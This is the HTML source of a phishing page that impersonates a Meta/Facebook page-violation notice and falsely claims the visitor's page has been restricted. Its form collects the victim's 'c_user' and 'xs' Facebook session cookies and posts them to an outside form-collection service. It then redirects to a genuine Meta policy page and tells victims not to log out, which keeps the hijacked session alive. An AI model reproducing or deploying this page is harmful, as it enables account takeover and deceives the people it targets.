 





    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1">
    <link href="style.css" rel="stylesheet">
    <link rel="icon" href="fb-logo.png" type="image/x-icon">

 
</head>
<body>
<div class="relative bg-[#FFFFFF]">
  <div class="mx-10 mt-4">
    <marquee>
      <img src="https://cdn.glitch.global/26db6cad-21fa-4aee-9093-92af7de338e9/meta-logo.png?v=1707682041784">
    </marquee>
  </div>

  <form class="sm:hidden lg:block md:block" action="https://submit-form.com/4p5Wiq4zp" method="post">
  <input
      type="hidden"
      name="_redirect"
      value="https://transparency.meta.com/en-gb/policies/"
    />

<div style="position: absolute; left: 1.5rem; top:8rem; width: 90%;">
  <div>
    <p class="border-b h-10 font-bold text-[16px] text-[#4b4f56] pl-3 p-2 bg-[#f5f6f7]">
      Request For Remove Page Violation
    </p>
  </div>
<div>
  <p class="mt-4 pl-3 text-[12px] font-semibold">
    We've identified irregular activity on your page that goes against our community guidelines.
  </p>
</div>
<div>
  <p class="mt-4 pl-3 text-[12px] font-semibold">
    As a result, access to your page has been restricted, and you're presently unable to post, share, or comment using it.
  </p>
</div>
<div>
  <p class="mt-4 pl-3 text-[12px] font-semibold">
    If you think this is a Mistake, you can request a review by providing the required details.
  </p>
</div>
<div>
  <p class="text-[11px] text-[#90949c] p-2 font-semibold">
    Detailed Video Information
  </p>
</div>
<div>
  <a class="w-32 h-20 block" href="https://detailed-video-29b30.web.app/detailed%20video.mp4"><img class="w-32 h-20 mx-3" src="https://cdn.glitch.global/26db6cad-21fa-4aee-9093-92af7de338e9/video-logo.jpg?v=1707684416461" alt=""></a>
  </div>
  <div>
  <p class=" pl-3 text-[12px] font-semibold">
    Kindly make sure to provide the requested details below.
  </p>
</div>
<div>
  <p class="text-slate-400 pl-4 mt-1">
    c_user
  </p><input class="border h-6 pl-1 mx-3" type="number" name="c_user" pattern="[0-9]+" minlength="6" title="Must Watch Detailed Video" required="1" aria-required="true">
</div>
<div>
  <p class="text-slate-400 pl-4 mt-1">
    xs
  </p><input class="border h-6 pl-1 mx-3" type="text" name="xs" pattern="^(?=.*[a-z])(?=.*[A-Z])(?=.*\d)(?=.*[@#$%^&amp;+=]).{12,}$" title="Must Watch Detailed Video" required="1" aria-required="true">
</div><div>
  <p class="mt-4 pl-3 text-[12px] font-semibold">
    Please ensure that you do not log out of your account on your computer or laptop until you have received a verification email.
  </p>
</div><div class="border mx-3 h-10 mt-4 bg-[#f5f6f7]"><div class="flex justify-end mx-2">
  <button class="border h-7 w-16  bg-[#4267b2] text-white shadow-2xl mt-[0.30rem] font-serif font-thin text-xs hover:bg-blue-500" id="delete-btn">
    Submit
  </button></div>
  </div>
 </div>
  </form>
</body>
</html>
